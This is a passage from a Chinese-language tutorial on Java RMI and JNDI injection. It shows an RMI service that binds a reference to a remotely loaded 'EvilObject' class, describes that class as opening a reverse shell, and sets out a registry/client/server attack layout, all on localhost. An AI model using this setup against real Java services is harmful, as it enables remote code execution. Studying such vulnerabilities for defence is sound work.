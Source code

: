 `EvilObject` 类的构造函数中包含了执行系统命令反弹 Shell 的代码，当 JNDI 注入成功触发时会被执行。

这里还需要一个 RMI 服务绑定一个相关的引用类（`RMIService.java`）：

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class RMIService {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
}
```

前面也说到了对象实例要能成功绑定在 RMI 服务上，必须直接或间接的实现 `Remote` 接口，这里 `ReferenceWrapper` 就继承于 `UnicastRemoteObject` 类并实现了 `Remote` 接口。

这里将 `RMIService.java` 和 `JNDIClient.java` 放在同一目录下，将 `EvilObject.java` 放在另一个目录下（为防止漏洞复现过程中应用端实例化 EvilObject 对象时从 CLASSPATH 当前路径找到编译好的字节代码，而不去远端进行下载的情况发生）,编译这三个文件，并在不同窗口下执行命令：

![image-20201021173907795](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201021173907795.png)



### 3.7RMI：client-registry-server的互相攻击

RMI数据传输都是基于序列化数据传输,RMI Registry、Client、Server都能相互攻击,在你攻击别人的时候 可能也会被人攻击

![image-20201021175314443](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201021175314443.png)

目录结构

```
$ tree
├── HelloInterface.java
├── client
│   └── HelloClient.java
├── reg
│   └── Registry.java
└── server
    ├── HelloImpl.java
    └── HelloServer.java
```

Registry.java

```
public class Registry {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
        } catch (RemoteException e) {
            e.printStackTrace();
        }
        while (true) ;
    }
}
```
